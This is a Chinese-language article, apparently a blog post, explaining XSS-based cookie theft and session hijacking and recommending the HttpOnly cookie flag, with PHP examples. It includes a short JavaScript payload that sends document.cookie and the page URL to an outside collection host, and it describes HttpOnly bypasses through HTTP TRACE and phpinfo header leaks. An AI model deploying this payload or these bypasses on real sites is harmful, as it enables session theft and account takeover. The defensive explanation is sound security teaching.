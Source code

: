 随着www服务的兴起，越来越多的应用程序转向了B/S结构，这样只需要一个浏览器就可以访问各种各样的web服务，但是这样也越来越导致了越来越多的web安全问题。www服务依赖于Http协议实现，Http是无状态的协议，所以为了在各个会话之间传递信息，就不可避免地用到Cookie或者Session等技术来标记访问者的状态，而无论是Cookie还是Session，一般都是利用Cookie来实现的(Session其实是在浏览器的Cookie里带了一个Token来标记，服务器取得了这个Token并且检查合法性之后就把服务器上存储的对应的状态和浏览器绑定)，这样就不可避免地安全聚焦到了Cookie上面，只要获得这个Cookie，就可以取得别人的身份，这对于入侵者是一件很美妙的事情，特别当获得的Cookie属于管理员等高权限身份者时，危害就更大了。在各种web安全问题里，其中xss漏洞就因此显得格外危险。
　　对于应用程序来说，一旦存在了xss漏洞就意味着别人可以在你的浏览器中执行任意的js脚本，如果应用程序是开源的或者功能是公开的话，别人就可以利用ajax使用这些功能，但是过程往往很烦琐，特别是想直接获得别人身份做随意浏览的话困难就更大。而对于不开源的应用程序，譬如某些大型站点的web后台(web2.0一个显著的特征就是大量的交互，用户往往需要跟后台的管理员交互，譬如Bug汇报，或者信息投递等等)，尽管因为交互的存在可能存在跨站脚本漏洞，但是因为对后台的不了解，无法构造完美的ajax代码来利用，即使可以用js取得后台的代码并回传分析，但是过程同样烦琐而且不隐蔽。这个时候，利用xss漏洞获得Cookie或者Session劫持就很有效了，具体分析应用程序的认证，然后使用某些技巧，甚至可以即使对方退出程序也一样永久性获得对方的身份。
　　那么如何获得Cookie或者Session劫持呢?在浏览器中的document对象中，就储存了Cookie的信息，而利用js可以把这里面的Cookie给取出来，只要得到这个Cookie就可以拥有别人的身份了。一个很典型的xss攻击语句如下：
　　xss exp:
　　url=document.top.location.href;
　　cookie=document.cookie;
　　c=new Image();
　　c.src=’http://www.loveshell.net/c.php?c=’+cookie+’&u=’+url;
　　一些应用程序考虑到这个问题所在，所以可能会采取浏览器绑定技术，譬如将Cookie和浏览器的User-agent绑定，一旦发现修改就认为Cookie失效。这种方法已经证明是无效的，因为当入侵者偷得Cookie的同时他肯定已经同时获得了User-agent。还有另外一种比较严格的是将Cookie和Remote-addr相绑定(其实就是和IP绑定，但是一些程序取得IP的方法有问题一样导致饶过)，但是这样就带来很差的用户体验，更换IP是经常的事，譬如上班与家里就是2个IP，所以这种方法往往也不给予采用。所以基于Cookie的攻击方式现在就非常流行，在一些web 2.0站点很容易就取到应用程序的管理员身份。
　　如何保障我们的敏感Cookie安全呢?通过上面的分析，一般的Cookie都是从document对象中获得的，我们只要让敏感Cookies浏览器document中不可见就行了。很幸运，现在浏览器在设置Cookie的时候一般都接受一个叫做HttpOnly的参数，跟domain等其他参数一样，一旦这个HttpOnly被设置，你在浏览器的document对象中就看不到Cookie了，而浏览器在浏览的时候不受任何影响，因为Cookie会被放在浏览器头中发送出去(包括ajax的时候)，应用程序也一般不会在js里操作这些敏感Cookie的，对于一些敏感的Cookie我们采用HttpOnly，对于一些需要在应用程序中用js操作的cookie我们就不予设置，这样就保障了Cookie信息的安全也保证了应用。关于HttpOnly说明可以参照 http://msdn2.microsoft.com/en-us/library/ms533046.aspx。
　　给浏览器设置Cookie的头如下：
　　Set-Cookie: =[; =]
　　[; expires=][; domain=]
　　[; path=][; secure][; HttpOnly]
　　以php为例，在php 5.2版本时就已经在Setcookie函数加入了对HttpOnly的支持，譬如：
   setcookie("abc","test",NULL,NULL,NULL,NULL,TRUE);
　　就可以设置abc这个cookie，将其设置为HttpOnly，document将不可见这个Cookie。因为setcookie函数本质就是个header，所以一样可以使用header来设置HttpOnly。然后再使用document.cookie就可以看到已经取不到这个Cookie了。我们用这种方法来保护利例如Sessionid，如一些用于认证的auth-cookie，就不用担心身份被人获得了，这对于一些后台程序和webmail提升安全性的意义是重大的。再次使用上面的攻击手法时可以看到，已经不能获取被我们设置为HttpOnly的敏感Cookie了。
　　但是，也可以看到HttpOnly并不是万能的，首先它并不能解决xss的问题，仍然不能抵制一些有耐心的黑客的攻击，也不能防止入侵者做ajax提交，甚至一些基于xss的proxy也出现了，但是已经可以提高攻击的门槛了，起码xss攻击不是每个脚本小子都能完成的了，而且其他的那些攻击手法因为一些环境和技术的限制，并不像Cookie窃取这种手法一样通用。
　　HttpOnly也是可能利用一些漏洞或者配置Bypass的，关键问题是只要能取到浏览器发送的Cookie头就可以了。譬如以前出现的Http Trace攻击就可以将你的Header里的Cookie回显出来，利用ajax或者flash就可以完成这种攻击，这种手法也已经在ajax和flash中获得修补。另外一个关于配置或者应用程序上可能Bypass的显著例子就是phpinfo，大家知道phpinfo会将浏览器发送的http头回显出来，其中就包括我们保护的auth信息，而这个页面经常存在在各种站点上，只要用ajax取phpinfo页面，取出header头对应的部分就可以获得Cookie了。一些应用程序的不完善也可能导致header头的泄露，这种攻击方式对于basic验证保护的页面一样可以攻击。
　　HttpOnly在IE 6以上，Firefox较新版本都得到了比较好的支持，并且在如Hotmail等应用程序里都有广泛的使用，并且已经是取得了比较好的安全效果。
